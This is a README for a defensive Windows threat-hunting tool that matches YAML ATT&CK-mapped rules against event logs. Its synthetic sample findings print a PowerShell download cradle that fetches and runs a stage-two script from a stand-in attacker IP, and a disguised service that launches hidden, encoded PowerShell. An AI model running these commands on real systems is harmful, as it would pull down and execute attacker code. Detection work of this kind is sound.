

# win-threat-hunter

A small Python command-line tool that hunts for attacker behaviour in Windows
**Security**, **System**, **Sysmon** and **PowerShell** event logs. Detections
are written as readable YAML rules, each mapped to a
[MITRE ATT&CK](https://attack.mitre.org/) technique, and every finding comes with
the evidence events and a recommended response action.

It is a learning / portfolio project, not a replacement for a SIEM or EDR.

---

## The problem

A Windows machine records thousands of events a day. Almost all of them are
normal. A SOC analyst needs to find the few that show an attack, for example:

- someone guessing passwords, then **getting in**
- a new account quietly added to **Administrators**
- an Office document launching **hidden, encoded PowerShell**
- a new service or scheduled task set up so the attacker **keeps access**
- the Security log being **cleared** to hide all of the above

Reading raw logs by hand doesn't scale. This tool encodes that knowledge as
rules, runs them over the logs, and gives you a prioritised list of findings
with the evidence attached.

## Features

- **Inputs:** native `.evtx` files (via `python-evtx`), JSON lines, and JSON
  arrays exported with PowerShell. You can pass files or whole folders.
- **11 YAML detection rules** in [`rules/`](rules), each mapped to an ATT&CK
  technique, with a severity, known false positives and a response action.
- **3 rule types:**
  - *single event* (e.g. Security log cleared)
  - *threshold* (e.g. 10 failed logons from one IP in 5 minutes, or failures
    against 6 *different* users = password spraying)
  - *sequence* (e.g. 5+ failures **then** a success from the same IP)
- **Alert de-duplication:** a 500-attempt brute force produces one finding with
  all the evidence attached, not 50 copies of the same alert.
- **Enrichment:** PowerShell `-EncodedCommand` payloads (including short forms
  such as `-e`, `-ec`, `-enc`) are decoded automatically and added to the finding.
- **Outputs:** coloured console table, plus JSON, Markdown and a self-contained
  HTML report with ATT&CK links, evidence tables and response actions.
- **Safe reporting:** log content is treated as attacker-controlled. It is
  HTML-escaped in the HTML report and markup-escaped in the console.
- **Tested:** pytest suite (98 passing, plus 1 optional `.evtx` test that is
  skipped unless you point it at real files) covering parsing, the rule engine,
  correlation logic, every rule against the sample data, reports and the CLI.
- Works on **Windows and Linux** with Python 3.10+. The test suite was run on
  Linux with Python 3.10 and 3.13.

## Architecture



| Module | Job |
|---|---|
| `src/wth/models.py` | Data classes: `Event`, `Rule`, `Condition`, `Threshold`, `Sequence`, `Finding` |
| `src/wth/parsers.py` | Reads `.evtx` / `.jsonl` / `.json` and turns every record into the same `Event` shape |
| `src/wth/rules.py` | Loads YAML rules and validates them strictly (unknown operator, bad technique ID, etc. = error) |
| `src/wth/engine.py` | Matches events to rules and does the threshold and sequence correlation |
| `src/wth/enrich.py` | Decodes Base64 PowerShell payloads for the analyst |
| `src/wth/report.py` | Console, JSON, Markdown and HTML output |
| `src/wth/cli.py` | `wth hunt` and `wth list-rules` commands |
| `scripts/generate_samples.py` | Rebuilds the synthetic sample data |
| `scripts/Export-WthEvents.ps1` | Exports your own Windows logs to JSON lines |

## Quickstart

### Windows (PowerShell)

```powershell
cd win-threat-hunter
py -3 -m venv .venv
.\.venv\Scripts\Activate.ps1      # if blocked: Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
pip install -r requirements-dev.txt
pip install -e .

# Run against the bundled sample data
wth hunt samples\sample_events.jsonl --html out\report.html --markdown out\report.md --json out\report.json
start out\report.html

# Run the tests
python -m pytest
```

### Linux / macOS

```bash
cd win-threat-hunter
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements-dev.txt
pip install -e .

wth hunt samples/sample_events.jsonl --html out/report.html --markdown out/report.md --json out/report.json
python -m pytest
```

`python -m wth ...` works the same as `wth ...`.

### Useful options

```text
wth hunt <files or folders> [--rules DIR] [--json F] [--markdown F] [--html F]
         [--min-severity low|medium|high|critical] [--fail-on SEVERITY]
         [--no-color] [-v/--verbose]
wth list-rules [--rules DIR]
```

- `-v` prints the response action and any decoded PowerShell under the table.
- `--fail-on high` makes the tool exit with code 1 if there is a high or
  critical finding (useful in scripts). Normal exit code is 0; errors are 2.

## Hunting on your own laptop

> Only analyse machines you own or are authorised to examine. Your own logs
> contain your username, hostname and IP addresses, so don't commit them to
> GitHub. The `.gitignore` already ignores `my-logs/` and `*.evtx`.

**Option A - export to JSON lines (recommended).** Open PowerShell **as
Administrator** (the Security log needs it):

```powershell
powershell -ExecutionPolicy Bypass -File .\scripts\Export-WthEvents.ps1 -Hours 24 -OutFile my-logs\events.jsonl
wth hunt my-logs\events.jsonl --html out\my-report.html
```

The script reads the Security, System, PowerShell Operational and Sysmon logs
(skipping any that don't exist) and keeps each event's named fields.

If you just want a quick one-liner for the Security log, this does the same
conversion:

```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; StartTime=(Get-Date).AddHours(-24)} | ForEach-Object { $x=[xml]$_.ToXml(); $d=[ordered]@{}; foreach($n in $x.Event.EventData.Data){ if($n.Name){ $d[$n.Name]=$n.'#text' } }; [pscustomobject]@{EventID=$_.Id; TimeCreated=$_.TimeCreated.ToUniversalTime().ToString('o'); Computer=$_.MachineName; Channel=$_.LogName; Provider=$_.ProviderName; EventData=$d} | ConvertTo-Json -Compress -Depth 4 } | Set-Content -Encoding UTF8 my-logs\security.jsonl
```

A plain `Get-WinEvent | ConvertTo-Json` *can* be parsed (EventID, time,
channel and host are read). But its event fields come as an unnamed
`Properties` list, so rules that check fields like `IpAddress` won't match.
Use the script or the one-liner above instead.

**Option B - export a copy of the `.evtx` file** (the live log files are in use
by Windows, so export a copy instead of reading them directly):

```powershell
mkdir my-logs
wevtutil epl Security my-logs\Security.evtx
wevtutil epl System my-logs\System.evtx
wth hunt my-logs
```

**Check that the events are being logged.** Several of these events are only
written if auditing is turned on. On a home PC you can enable it like this
(elevated prompt):

```powershell
auditpol /set /subcategory:"Logon" /success:enable /failure:enable
auditpol /set /subcategory:"User Account Management" /success:enable
auditpol /set /subcategory:"Security Group Management" /success:enable
auditpol /set /subcategory:"Process Creation" /success:enable
auditpol /set /subcategory:"Other Object Access Events" /success:enable   # 4698 scheduled tasks
# Include command lines in 4688 events:
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f
# PowerShell script block logging (4104):
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" /v EnableScriptBlockLogging /t REG_DWORD /d 1 /f
```

Sysmon rules (WTH-011, and Sysmon Event 1 in WTH-007) need
[Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon) installed.

**Generate a few harmless test events** (then clean up):

```powershell
net user wth_test "Temp-Passw0rd-123!" /add          # 4720 -> WTH-004
net localgroup Administrators wth_test /add          # 4732 -> WTH-005
net localgroup Administrators wth_test /delete
net user wth_test /delete
schtasks /create /tn WthTest /tr notepad.exe /sc once /st 23:59 /f   # 4698 -> WTH-010
schtasks /delete /tn WthTest /f
$c = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('Write-Output "wth test"'))
powershell -NoProfile -EncodedCommand $c             # 4688/Sysmon 1 with -EncodedCommand -> WTH-007
```

## Sample output

This is real output from running the tool on the bundled sample data
(`wth hunt samples/sample_events.jsonl --no-color`, 150-column terminal):

```text
win-threat-hunter - 46 events parsed (0 skipped), 11 rules, 15 findings
┏━━━━┳━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ #  ┃ Severity ┃ Rule                                       ┃ ATT&CK    ┃ First seen (UTC)     ┃ Events ┃ Detail                                    ┃
┡━━━━╇━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ 1  │ CRITICAL │ WTH-002 Brute force followed by successful │ T1110     │ 2026-10-30T13:58:00Z │ 13     │ 13 event(s) for IpAddress=203.0.113.45    │
│    │          │ logon                                      │           │                      │        │                                           │
│ 2  │ HIGH     │ WTH-007 Suspicious PowerShell - encoded    │ T1059.001 │ 2026-10-30T09:15:12Z │ 1      │ User=LAB\analyst.demo;                    │
│    │          │ command or download cradle                 │           │                      │        │ ParentImage=C:\Program Files\Microsoft    │
│    │          │                                            │           │                      │        │ Office\root\Office16\WINWORD.EXE          │
│ 3  │ HIGH     │ WTH-011 Office application spawned a shell │ T1204.002 │ 2026-10-30T09:15:12Z │ 1      │ User=LAB\analyst.demo;                    │
│    │          │ or script host (Sysmon)                    │           │                      │        │ ParentImage=C:\Program Files\Microsoft    │
│    │          │                                            │           │                      │        │ Office\root\Office16\WINWORD.EXE          │
│ 4  │ HIGH     │ WTH-003 Password spraying - one source     │ T1110.003 │ 2026-10-30T14:03:00Z │ 8      │ 8 event(s) for IpAddress=198.51.100.23    │
│    │          │ failing against many accounts              │           │                      │        │                                           │
│ 5  │ HIGH     │ WTH-005 Member added to a privileged group │ T1098     │ 2026-10-30T14:05:31Z │ 1      │ TargetUserName=Administrators;            │
│    │          │                                            │           │                      │        │ SubjectUserName=administrator             │
│ 6  │ HIGH     │ WTH-007 Suspicious PowerShell - encoded    │ T1059.001 │ 2026-10-30T14:07:00Z │ 1      │ SubjectUserName=administrator;            │
│    │          │ command or download cradle                 │           │                      │        │ NewProcessName=C:\Windows\System32\Window │
│    │          │                                            │           │                      │        │ sPowerShell\v1.0\powershell.exe           │
│ 7  │ HIGH     │ WTH-007 Suspicious PowerShell - encoded    │ T1059.001 │ 2026-10-30T14:07:01Z │ 1      │ ScriptBlockText=IEX (New-Object           │
│    │          │ command or download cradle                 │           │                      │        │ Net.WebClient).DownloadString('http://203 │
│    │          │                                            │           │                      │        │ ...                                       │
│ 8  │ HIGH     │ WTH-009 Service installed with suspicious  │ T1543.003 │ 2026-10-30T14:09:44Z │ 1      │ ServiceName=WinUpdateHelper;              │
│    │          │ binary path                                │           │                      │        │ ImagePath=%COMSPEC% /b /c start /b /min   │
│    │          │                                            │           │                      │        │ powershell.exe -nop -w hidd...            │
│ 9  │ HIGH     │ WTH-006 Security event log cleared         │ T1070.001 │ 2026-10-30T14:12:03Z │ 1      │ SubjectUserName=administrator             │
│ 10 │ MEDIUM   │ WTH-010 Scheduled task created             │ T1053.005 │ 2026-10-30T08:56:00Z │ 1      │ SubjectUserName=it.admin;                 │
│    │          │                                            │           │                      │        │ TaskName=\Contoso\BackupAgentUpdate       │
│ 11 │ MEDIUM   │ WTH-001 Brute force - many failed logons   │ T1110.001 │ 2026-10-30T13:58:00Z │ 12     │ 12 event(s) for IpAddress=203.0.113.45    │
│    │          │ from one source                            │           │                      │        │                                           │
│ 12 │ MEDIUM   │ WTH-004 New local user account created     │ T1136.001 │ 2026-10-30T14:05:10Z │ 1      │ TargetUserName=support_tmp;               │
│    │          │                                            │           │                      │        │ SubjectUserName=administrator             │
│ 13 │ MEDIUM   │ WTH-010 Scheduled task created             │ T1053.005 │ 2026-10-30T14:10:15Z │ 1      │ SubjectUserName=administrator;            │
│    │          │                                            │           │                      │        │ TaskName=\Microsoft\Windows\UpdateCheck   │
│ 14 │ LOW      │ WTH-008 New service installed              │ T1543.003 │ 2026-10-30T08:55:00Z │ 1      │ ServiceName=Contoso Backup Agent;         │
│    │          │                                            │           │                      │        │ ImagePath="C:\Program                     │
│    │          │                                            │           │                      │        │ Files\Contoso\Backup\backupagent.exe"     │
│ 15 │ LOW      │ WTH-008 New service installed              │ T1543.003 │ 2026-10-30T14:09:44Z │ 1      │ ServiceName=WinUpdateHelper;              │
│    │          │                                            │           │                      │        │ ImagePath=%COMSPEC% /b /c start /b /min   │
│    │          │                                            │           │                      │        │ powershell.exe -nop -w hidd...            │
└────┴──────────┴────────────────────────────────────────────┴───────────┴──────────────────────┴────────┴───────────────────────────────────────────┘
critical: 1, high: 8, medium: 4, low: 2
```

With `-v`, the response action and decoded payload are printed under the table:

```text
2. WTH-007 Suspicious PowerShell - encoded command or download cradle
   Response: Decode the payload (see the Note on the finding) and identify what it downloads or runs. Block any URLs/IPs it contacts, isolate the host
if code was executed, and find the parent process that launched PowerShell.
   Note: Decoded -EncodedCommand (CommandLine): IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.45/stage2.ps1')
```

An excerpt from the Markdown report (`--markdown out/report.md`):

```markdown
### 8. [HIGH] WTH-009 - Service installed with suspicious binary path

- **MITRE ATT&CK:** [T1543.003 Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/) (Persistence)
- **Time window (UTC):** 2026-10-30T14:09:44Z -> 2026-10-30T14:09:44Z
- **Host(s):** WS-LAB-07.lab.local
- **Recommended response:** Stop and disable the service, preserve the binary/script it points to for analysis, and identify the account that installed it (via 4697 or the logon session). Isolate the host if the payload is confirmed malicious.
- **Possible false positives:** Poorly packaged software that installs services under ProgramData
- **Note:** `Decoded -EncodedCommand (ImagePath): IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.45/stage2.ps1')`

| Time (UTC) | EventID | Host | Details | Source |
|---|---|---|---|---|
| 2026-10-30T14:09:44Z | 7045 | WS-LAB-07.lab.local | ServiceName=WinUpdateHelper; ImagePath=%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAu... | sample_events.jsonl:44 |
```

Running on `samples/benign_only.jsonl` (normal activity only) gives 2
findings: a LOW "new service" and a MEDIUM "scheduled task" for legitimate
backup software. Nothing is HIGH or CRITICAL. This is on purpose. It shows
the difference between "worth a quick look" and "act now", and it's a test case
(`test_benign_noise_has_no_high_or_critical_findings`).

### About the sample data

`samples/` is **synthetic** and generated by `scripts/generate_samples.py`. The
host, domain and user names are made up. Attacker IPs come from the
documentation-only ranges `203.0.113.0/24` and `198.51.100.0/24` (RFC 5737).
The story: a phishing document runs hidden PowerShell. Later an attacker
brute-forces `administrator`, gets in, sprays other accounts, creates a
backdoor admin, installs a service and a scheduled task, and clears the
Security log. Mixed in is normal activity: logons, a couple of password typos,
admin scripts, and a legitimate service and task.

## Rule format

```yaml
id: WTH-001
title: Brute force - many failed logons from one source
description: >
  Why this matters, in plain English.
severity: medium              # low | medium | high | critical
mitre:
  technique_id: T1110.001
  technique_name: "Brute Force: Password Guessing"
  tactic: Credential Access
detection:
  event_ids: [4625]
  channel: Security           # optional, exact (case-insensitive) match
  match: all                  # all = AND the conditions (default), any = OR
  conditions:
    - field: IpAddress        # a field name, or a list of names (any of them)
      op: equals              # equals | contains | startswith | endswith | regex | exists
      value: ["-", ""]        # a value, or a list of values (any of them)
      negate: true            # invert the result (exclusions)
threshold:                    # optional -> correlation
  count: 10
  window_seconds: 300
  group_by: [IpAddress]
  distinct: TargetUserName    # optional: count distinct values instead of events
response: >
  What the analyst should do next.
false_positives:
  - Known benign causes
references:
  - https://...
```

A **sequence** rule uses `sequence:` instead of `detection:`:

```yaml
sequence:
  window_seconds: 600
  group_by: [IpAddress]
  steps:
    - name: failed_logons
      event_ids: [4625]
      min_count: 5
    - name: successful_logon
      event_ids: [4624]
      conditions:
        - {field: LogonType, op: equals, value: ["3", "10"]}
```

All string comparisons are case-insensitive. Rules are validated when they're
loaded. A typo such as an unknown operator, a bad technique ID or a missing
`response` stops the run with an error, so a broken rule can't silently match
nothing.

### Shipped rules

| ID | Title | Type | Event IDs | ATT&CK | Severity |
|---|---|---|---|---|---|
| WTH-001 | Brute force - many failed logons from one source | threshold | 4625 | T1110.001 | medium |
| WTH-002 | Brute force followed by successful logon | sequence | 4625 -> 4624 | T1110 | critical |
| WTH-003 | Password spraying (many distinct users, one source) | threshold (distinct) | 4625 | T1110.003 | high |
| WTH-004 | New local user account created | single | 4720 | T1136.001 | medium |
| WTH-005 | Member added to a privileged group | single | 4732, 4728, 4756 | T1098 | high |
| WTH-006 | Security event log cleared | single | 1102, 104 | T1070.001 | high |
| WTH-007 | Suspicious PowerShell - encoded command or download cradle | single | 4104, 4688, Sysmon 1 | T1059.001 | high |
| WTH-008 | New service installed | single | 7045 | T1543.003 | low |
| WTH-009 | Service installed with suspicious binary path | single | 7045 | T1543.003 | high |
| WTH-010 | Scheduled task created | single | 4698 | T1053.005 | medium |
| WTH-011 | Office application spawned a shell or script host | single | Sysmon 1 | T1204.002 | high |

## How this maps to SOC work

| SOC activity | Where it shows up in this project |
|---|---|
| Writing detections | YAML rules with logic, severity, ATT&CK mapping and documented false positives |
| Detection-as-code | Rules are text files under version control, with a unit test that pins how many times each rule fires on known data |
| Alert triage | Severity ordering, de-duplicated findings, evidence events with file:line source, decoded payloads |
| Tuning false positives | `negate` exclusions (e.g. local console failures), thresholds, and low/high tiers (WTH-008 vs WTH-009) |
| Correlation | Threshold and sequence rules (brute force -> success) |
| Incident response | Each finding carries a recommended response action |
| Threat intel frameworks | Every rule links to its ATT&CK technique page |

## Limitations

- **Not real-time.** It analyses exported or saved logs. It is not an agent and
  does not stream events.
- **Only as good as the logging.** If auditing, command-line logging, script
  block logging or Sysmon are not enabled, the matching rules can't fire.
  "No findings" does not mean "no attacker".
- **Simple rule language.** There's no nested boolean logic (e.g. `(A and B) or C`),
  no cross-host correlation, and no lookups against threat intel or allow-lists.
  [Sigma](https://github.com/SigmaHQ/sigma) is the industry format for this. See
  Future work.
- **Evasion.** String-based rules can be bypassed with obfuscation (string
  concatenation, alternative download methods, renamed binaries). WTH-011
  matches on image path, so a renamed `powershell.exe` would get past it.
  Sysmon's `OriginalFileName` field would catch that.
- **Single-machine view.** Grouping by source IP works for one host. Behind NAT
  or a proxy, many people can share one IP.
- **Everything is loaded into memory**, and `python-evtx` is pure Python, so
  very large `.evtx` files are slow. It's fine for a laptop's logs, not for a
  domain controller's archive.
- **What was and wasn't tested.** The `.evtx` path was checked by hand against
  a few public attack-sample `.evtx` files (EVTX-ATTACK-SAMPLES project), but
  those files are not included. To run the optional test against your own
  files, set `WTH_EVTX_DIR`. The XML-to-JSON conversion in
  `Export-WthEvents.ps1` was tested with PowerShell 7 on Linux using mock
  records. It has not yet been run against a live Windows event log or on
  Windows PowerShell 5.1.

## Future work

- Convert / import [Sigma](https://github.com/SigmaHQ/sigma) rules
- Allow-lists (known-good service paths, task names, admin hosts) to cut false positives
- Rules on Sysmon network (Event 3) and LSASS access (Event 10) for credential dumping
- Streaming parser for very large files; filtering by time range
- Output in a SIEM-friendly format (e.g. Elastic Common Schema) or send to a webhook
- Timeline view across all findings for one host or user

## Licence

MIT - see [LICENSE](LICENSE).
